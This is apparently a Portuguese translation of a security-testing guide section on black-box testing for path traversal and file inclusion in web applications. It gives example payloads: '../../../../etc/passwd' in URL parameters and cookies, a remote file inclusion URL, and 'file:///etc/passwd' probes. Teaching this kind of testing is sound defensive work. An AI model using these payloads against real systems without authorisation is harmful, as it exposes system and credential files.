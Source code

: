 ## Como Testar

### Teste de Caixa Preta

#### Enumeração de Vetores de Injeção

A fim de determinar qual parte da aplicação é vulnerável à validação de entrada, o testador precisa enumerar todas as partes da aplicação que aceitam conteúdo do usuário. Isso inclui consultas HTTP GET e POST e opções comuns, como uploads de arquivos e formulários HTML.

Aqui estão alguns exemplos das verificações a serem realizadas nesta etapa:

- Existem parâmetros de solicitação que podem ser usados para operações relacionadas a arquivos?
- Existem extensões de arquivo incomuns?
- Existem nomes de variáveis interessantes?
  - `http://exemplo.com/getUserProfile.jsp?item=ikki.html`
  - `http://exemplo.com/index.php?file=conteudo`
  - `http://exemplo.com/main.cgi?home=index.htm`
- É possível identificar cookies usados pela aplicação web para a geração dinâmica de páginas ou modelos?
  - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
  - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Técnicas de Teste

A próxima etapa do teste é analisar as funções de validação de entrada presentes na aplicação web. Usando o exemplo anterior, a página dinâmica chamada `getUserProfile.jsp` carrega informações estáticas de um arquivo e mostra o conteúdo aos usuários. Um atacante poderia inserir a string maliciosa `../../../../etc/passwd` para incluir o arquivo de hash de senha de um sistema Linux/UNIX. Obviamente, esse tipo de ataque é possível apenas se o ponto de verificação de validação falhar; de acordo com os privilégios do sistema de arquivos, a própria aplicação web deve ser capaz de ler o arquivo.

Para testar com sucesso essa falha, o testador precisa ter conhecimento do sistema em teste e da localização dos arquivos solicitados. Não faz sentido solicitar `/etc/passwd` de um servidor web IIS.

```text
http://exemplo.com/getUserProfile.jsp?item=../../../../etc/passwd
```

Para o exemplo dos cookies:

```text
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

Também é possível incluir arquivos e scripts localizados em sites externos:

```text
http://exemplo.com/index.php?file=http://www.owasp.org/malicioustxt
```

Se protocolos forem aceitos como argumentos, como no exemplo acima, também é possível sondar o sistema de arquivos local dessa maneira:

```text
http://exemplo.com/index.php?file=file:///etc/passwd
```

